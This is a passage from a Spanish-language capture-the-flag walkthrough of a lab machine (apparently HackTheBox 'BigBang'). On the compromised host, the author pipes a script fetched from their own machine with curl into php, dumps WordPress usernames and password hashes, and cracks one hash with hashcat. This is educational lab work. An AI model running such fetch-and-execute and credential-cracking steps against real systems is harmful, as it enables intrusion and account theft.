voi là !

```bash
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ curl 10.10.14.64:8000/wp_users.php | php
</wp-admin$ curl 10.10.14.64:8000/wp_users.php | php    
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   963  100   963    0     0   4125      0 --:--:-- --:--:-- --:--:--  4133
Connected successfully
ID: 1
user_login: root
user_pass: $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1
user_nicename: root
user_email: root@bigbang.htb
user_url: http://blog.bigbang.htb
user_registered: 2024-05-31 13:06:58
user_activation_key: 
user_status: 0
display_name: root
------------------------
ID: 3
user_login: shawking
user_pass: $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
user_nicename: shawking
user_email: shawking@bigbang.htb
user_url: 
user_registered: 2024-06-01 10:39:55
user_activation_key: 
user_status: 0
display_name: Stephen Hawking
------------------------

```

Bueno a crackear esas passwords!

```bash
➜  BigBang hashcat --identify shawkinghash 
The following hash-mode match the structure of your input hash:
      # | Name                                                       | Category
  ======+============================================================+======================================
    400 | phpass                                                     | Generic KDF
```
---

# Hashcat y user.txt

Crackeamos el el phpass
```bash

hashcat -a 0 -m 400 shawkinghash /usr/share/wordlists/rockyou.txt

$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
Time.Started.....: Mon Feb  3 20:49:54 2025 (12 mins, 36 secs)
Time.Estimated...: Mon Feb  3 21:02:30 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5901 H/s (10.65ms) @ Accel:256 Loops:256 Thr:1 Vec:8
```